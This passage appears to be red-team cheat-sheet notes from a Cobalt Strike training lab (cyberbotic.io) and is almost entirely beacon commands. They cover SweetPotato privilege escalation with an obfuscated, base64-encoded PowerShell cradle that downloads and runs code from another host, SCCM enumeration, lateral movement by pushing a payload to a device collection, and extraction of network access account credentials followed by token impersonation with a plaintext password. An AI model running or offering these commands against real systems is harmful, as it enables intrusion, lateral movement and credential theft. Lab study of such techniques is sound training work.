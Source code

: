 ```bash
beacon> link sql-1.cyberbotic.io TSVCPIPE-ae2b7dc0-4ebe-4975-b8a0-06e990a41337
```

#### Privilege Escalation

```bash
beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe TokenPrivileges
beacon> execute-assembly C:\Tools\SweetPotato\bin\Release\SweetPotato.exe -p C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -a "-w hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AcwBxAGwALQAyAC4AZABlAHYALgBjAHkAYgBlAHIAYgBvAHQAaQBjAC4AaQBvADoAOAAwADgAMAAvAGMAJwApAA=="
beacon> connect localhost 4444
```

## Microsoft Configuration Manager

### Enumeration

```bash
beacon> execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe local site-info --no-banner
beacon> powershell Get-WmiObject -Class SMS_Authority -Namespace root\CCM | select Name, CurrentManagementPoint | fl
beacon> execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get site-info -d cyberbotic.io --no-banner
beacon> execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get collections --no-banner
beacon> execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get class-instances SMS_Admin --no-banner
beacon> execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get collection-members -n DEV --no-banner
beacon> execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get devices -n WKSTN -p Name -p FullDomainName -p IPAddresses -p LastLogonUserName -p OperatingSystemNameandVersion --no-banner
beacon> execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe get devices -u nlamb -p IPAddresses -p IPSubnets -p Name --no-banner
```

### Lateral Movement

```bash
beacon> execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe exec -n DEV -p C:\Windows\notepad.exe --no-banner
beacon> execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe exec -n DEV -p "C:\Windows\System32\cmd.exe /c start /b \\dc-2\software\dns_x64.exe" -s --no-banner
```

### Network Credentials

```bash
beacon> execute-assembly C:\Tools\SharpSCCM\bin\Release\SharpSCCM.exe local naa -m wmi --no-banner
beacon> make_token cyberbotic.io\sccm_svc Cyberb0tic
beacon> ls \\dc-1.cyberbotic.io\c$
```

## Domain Dominance
